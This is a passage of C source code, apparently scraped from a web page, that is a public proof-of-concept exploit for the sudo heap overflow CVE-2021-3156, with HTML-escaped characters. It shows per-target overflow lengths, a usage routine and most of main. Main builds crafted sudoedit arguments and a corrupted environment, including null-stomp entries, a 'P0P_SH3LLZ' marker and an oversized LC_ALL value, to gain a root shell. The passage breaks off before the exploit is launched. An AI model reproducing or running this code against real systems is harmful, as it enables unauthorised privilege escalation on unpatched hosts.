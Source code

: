 ```
        .smash_len_b    = 49,
        .null_stomp_len = 60, 
        .lc_all_len     = 214
    `}`
`}`;

void usage(char *prog) `{`
    printf("  usage: %s &lt;target&gt;\n\n", prog);
    printf("  available targets:\n");
    printf("  ------------------------------------------------------------\n");
    for(int i = 0; i &lt; sizeof(targets) / sizeof(target_t); i++) `{`
        printf("    %d) %s\n", i, targets[i].target_name);
    `}`
    printf("  ------------------------------------------------------------\n");
    printf("\n");
`}`

int main(int argc, char *argv[]) `{`
    printf("\n** CVE-2021-3156 PoC by blasty &lt;peter@haxx.in&gt;\n\n");

    if (argc != 2) `{`
        usage(argv[0]);
        return -1;
    `}`

    int target_idx = atoi(argv[1]);

    if (target_idx &lt; 0 || target_idx &gt;= (sizeof(targets) / sizeof(target_t))) `{`
        fprintf(stderr, "invalid target index\n");
        return -1;
    `}`

    target_t *target = &amp;targets[ target_idx ];

    printf("using target: '%s'\n", target-&gt;target_name);

    char *smash_a = calloc(target-&gt;smash_len_a + 2, 1);
    char *smash_b = calloc(target-&gt;smash_len_b + 2, 1);

    memset(smash_a, 'A', target-&gt;smash_len_a);
    memset(smash_b, 'B', target-&gt;smash_len_b);

    smash_a[target-&gt;smash_len_a] = '\\';
    smash_b[target-&gt;smash_len_b] = '\\';

    char *s_argv[]=`{`
        "sudoedit", "-s", smash_a, "\\", smash_b, NULL
    `}`;

    char *s_envp[MAX_ENVP];
    int envp_pos = 0;

    for(int i = 0; i &lt; target-&gt;null_stomp_len; i++) `{`
        s_envp[envp_pos++] = "\\";
    `}`
    s_envp[envp_pos++] = "X/P0P_SH3LLZ_";

    char *lc_all = calloc(target-&gt;lc_all_len + 16, 1);
    strcpy(lc_all, "LC_ALL=C.UTF-8@");
    memset(lc_all+15, 'C', target-&gt;lc_all_len);

    s_envp[envp_pos++] = lc_all;
    s_envp[envp_pos++] = NULL;
```